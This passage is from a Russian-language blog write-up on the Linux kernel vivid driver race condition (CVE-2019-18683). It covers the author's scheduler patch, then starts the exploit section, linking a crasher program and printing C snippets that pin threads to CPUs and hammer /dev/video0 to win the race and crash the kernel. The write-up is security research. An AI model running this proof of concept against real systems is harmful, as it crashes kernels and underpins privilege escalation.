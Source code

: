 Иными словами, в третьей версии патча ядро работает корректно по чистой случайности. А чтобы правильно отправить ядерный поток поспать, нужно обязательно задать ему состояние, отличное от `TASK_RUNNING`. Я исправил этот недостаток в финальной четвертой версии патча.

Позже мне пришла мысль добавить в ядро специальную проверку, которая обнаруживает такие случаи некорректного использования ядерного API. Я [отправил][5] в список рассылки ядра Linux патч, на который [ответил][6] Стивен Ростедт (Steven Rostedt), один из мэйнтейнеров планировщика задач в ядре Linux. Он интересно объяснил, почему такая ситуация в работе планировщика является штатной и моя проверка не требуется.

Тогда я просто [доработал описание][7] функции `schedule_timeout()`, чтобы предостеречь других разработчиков от неправильного использования данного API. Патч уже принят в ветку `linux-next`.

Вот так непросто иногда бывает заснуть :)

Далее я расскажу об эксплойте.

## Выиграть гонку

Как было сказано ранее, функция `vivid_stop_generating_vid_cap()` вызывается для остановки стриминга, который работает в отдельном ядерном потоке. В ней мьютекс разблокируется в надежде, что обработчик `vivid_thread_vid_cap()` в данном ядерном потоке заблокирует его, чтобы выйти из своего цикла. Для эксплуатации уязвимости в первую очередь необходимо выиграть гонку против этого ядерного потока.

Далее приведен [код программы](https://a13xp0p0v.github.io/img/v4l2-crasher.c), которая достигает состояния гонки и вызывает падение ядра. Если вы хотите протестировать ее на уязвимом ядре, проверьте, что:
 - драйвер `vivid` загружен;
 - в ядерном журнале указано, что `/dev/video0` – это устройство видеозахвата (`V4L2` capture device);
 - пользователь выполнил вход (login) в систему, чтобы Ubuntu применила RW ACL, который упомянут выше.

Данная программа создает два потока. Чтобы быстрее достичь состояния гонки в ядре, они привязываются к отдельным CPU с помощью `sched_setaffinity`:

```c
	cpu_set_t single_cpu;

	CPU_ZERO(&single_cpu);
	CPU_SET(cpu_n, &single_cpu);
	ret = sched_setaffinity(0, sizeof(single_cpu), &single_cpu);
	if (ret != 0)
		err_exit("[-] sched_setaffinity for a single CPU");
```

Вот код, который провоцирует ошибку в ядре (выполняется в двух одновременных потоках):

```c
	for (loop = 0; loop < LOOP_N; loop++) {
		int fd = 0;

		fd = open("/dev/video0", O_RDWR);
		if (fd < 0)
			err_exit("[-] open /dev/video0");

		read(fd, buf, 0xfffded);
		close(fd);
	}
```


[0]: https://nvd.nist.gov/vuln/detail/CVE-2019-18683
[0.1]: https://www.offensivecon.org/speakers/2020/alexander-popov.html
[0.2]: https://elixir.bootlin.com/linux/v5.4/source/drivers/media/platform/vivid
[1]: https://youtu.be/mb4YHyLy0Zc
[1.1]: https://www.kernel.org/doc/html/latest/media/v4l-drivers/vivid.html
[2]: https://www.openwall.com/lists/oss-security/2019/11/02/1
[3]: https://github.com/google/syzkaller/
[4]: https://lore.kernel.org/lkml/CAHk-=wgE-veRb7+mw9oMmsD97BLnL+q8Gxu0QRrK65S2yQfMdQ@mail.gmail.com/
[5]: https://lore.kernel.org/lkml/20200116140218.1328022-1-alex.popov@linux.com/T/#u
[6]: https://lore.kernel.org/lkml/20200116095220.7368a604@gandalf.local.home/
[7]: https://lore.kernel.org/lkml/20200117225900.16340-1-alex.popov@linux.com/T/#u
[9]: https://duasynt.com/blog/linux-kernel-heap-spray
[10]: https://twitter.com/andreyknvl
[11]: https://github.com/xairy
[12]: https://www.ptsecurity.com/ww-en/
[13]: https://grsecurity.net/features
[14]: https://community.arm.com/developer/ip-products/processors/b/processors-ip-blog/posts/enhancing-memory-safety
